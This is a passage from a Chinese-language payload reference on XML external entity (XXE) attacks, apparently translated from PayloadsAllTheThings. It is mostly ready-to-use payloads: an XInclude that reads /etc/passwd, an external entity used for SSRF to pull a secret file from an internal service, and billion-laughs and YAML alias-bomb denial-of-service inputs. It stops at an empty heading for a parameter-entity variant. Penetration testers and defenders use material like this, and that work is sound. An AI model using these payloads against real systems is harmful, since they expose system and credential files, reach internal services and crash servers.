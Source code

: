 ```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```



## 利用XXE执行SSRF攻击

XXE可以与[SSRF漏洞](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)结合，针对网络上的另一项服务。

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt" >
]>
<foo>&xxe;</foo>
```


## 利用XXE执行拒绝服务攻击

:warning: : 这些攻击可能会使服务或服务器崩溃，请勿在生产环境中使用。

### 十亿笑攻击

```xml
<!DOCTYPE data [
<!ENTITY a0 "dos" >
<!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
<!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
<!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
<!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
]>
<data>&a4;</data>
```

### Yaml攻击

```xml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```

### 参数笑攻击
